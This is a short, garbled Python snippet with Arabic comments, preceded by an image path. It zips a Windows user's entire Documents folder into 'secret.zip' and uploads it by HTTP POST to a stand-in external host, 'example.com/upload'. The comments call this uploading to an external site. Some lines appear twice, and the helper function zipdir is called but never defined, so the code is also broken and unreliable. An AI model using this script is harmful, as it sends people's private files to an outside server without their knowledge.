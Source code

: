 z = zipfile.ZipFile(OUTPUT, MODE, zipfile.ZIP_DEFLATED)
zipdir(PATH, z)
z.close()
import zipfile
import os
import requests

OUTPUT = "secret.zip"
PATH = "C:\\Users\\اسم_المستخدم\\Documents"
MODE = "w"

# ضغط الملفات
z = zipfile.ZipFile(OUTPUT, MODE, zipfile.ZIP_DEFLATED)
zipdir(PATH, z)
z.close()

# رفع الملف إلى موقع خارجي
files = {'file': open(OUTPUT, 'rb')}
response = requests.post("http://example.com/upload", files=files)
